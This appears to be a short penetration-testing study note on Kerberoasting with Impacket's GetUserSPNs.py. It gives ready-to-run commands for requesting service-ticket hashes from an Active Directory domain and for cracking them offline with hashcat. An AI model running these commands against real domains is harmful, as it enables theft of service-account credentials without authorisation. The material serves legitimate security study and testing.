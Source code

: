 ```yaml
---
tags:
---
```

# GetUserSPNs

Queries target domain for SPNs that are running under a user account ([Kerberoasting](https://www.youtube.com/watch?v=-3MxoxdzFNI))

## Capabilities

```powershell
# Kerberoast
GetUserSPNs.py -request -outputfile hashes.kerberoast $DOMAIN/$USER:$PASSWD

# Kerberoast with no-preauth user
GetUserSPNs.py -request -no-preauth $NO_PREAUTH_USER -usersfile valid_users.txt -outputfile hashes.kerberoast $DOMAIN/
```

Crack with hashcat

```powershell
# Linux
hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt --force
hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

# Windows
.\hashcat.exe -m 13100 hashes\pen-200\hashes.kerberoast wordlists\rockyou.txt -r rules\best64.rule --force
```

